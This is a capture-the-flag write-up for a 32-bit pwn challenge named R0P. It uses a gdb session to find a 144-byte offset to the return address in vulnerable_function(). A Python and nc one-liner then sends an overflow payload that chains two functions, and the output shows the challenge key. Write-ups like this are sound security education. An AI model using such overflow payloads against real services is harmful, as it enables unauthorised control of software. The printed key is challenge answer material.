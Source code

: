 ## R0P [130]
## Solution
`call_first()` is at `0x08048671` and `call_second()` is at `0x080485BB`. In `vulnerable_function()` we read into a buffer on the stack until a newline is hit with no bounds checking. We can overflow the buffer and overwrite the return address on the `vulnerable_function()` stack to redirect it's control flow to `call_first()`. We will overwrite the return address of `vulnerable_function()` with `call_first()` and then write the address of `call_second()` directly after it to ensure that both functions are called.

```
ameise@STAHLKERN:~/CS2015/pwn/130_ROP$ gdb ./r0p 
Reading symbols from ./r0p...(no debugging symbols found)...done.
(gdb) disas vulnerable_function 
Dump of assembler code for function vulnerable_function:
   0x080486fc <+0>:	push   ebp
   0x080486fd <+1>:	mov    ebp,esp
   0x080486ff <+3>:	sub    esp,0x98
   [...]
   0x0804877b <+127>:	mov    eax,ds:0x804a068
   0x08048780 <+132>:	cmp    eax,0xff
   0x08048785 <+137>:	jle    0x804872a <vulnerable_function+46>
   0x08048787 <+139>:	leave  
   0x08048788 <+140>:	ret    
End of assembler dump.
(gdb) break *0x08048787
Breakpoint 1 at 0x8048787
(gdb) run
Starting program: /home/ameise/CS2015/pwn/130_ROP/r0p 
aaaabbbbccccdddd

Breakpoint 1, 0x08048787 in vulnerable_function ()
(gdb) p/x $ebp-0x8c
$1 = 0xffffce5c
(gdb) x/16xb 0xffffce5c
0xffffce5c:	0x61	0x61	0x61	0x61	0x62	0x62	0x62	0x62
0xffffce64:	0x63	0x63	0x63	0x63	0x64	0x64	0x64	0x64
(gdb) si
0x08048788 in vulnerable_function ()
(gdb) x/3i $eip
=> 0x8048788 <vulnerable_function+140>:	ret    
   0x8048789 <die>:	push   ebp
   0x804878a <die+1>:	mov    ebp,esp
(gdb) x/1xw $esp
0xffffceec:	0x08048870
```

The start of the buffer is at `0xffffce5c` and the return address is at `0xffffceec`. Thus, we need `0x90` (144) bytes of padding before overwriting the return addresses:
```
ameise@STAHLKERN:~/CS2015/pwn/130_ROP$ python -c 'print "a"*144 + "\x71\x86\x04\x08" + "\xbb\x85\x04\x08"' | nc shell.cyberstakesonline.com 20068
Loading first half of key...
Your key is: dfae35725f0fad799a74aed3e38d9a62
```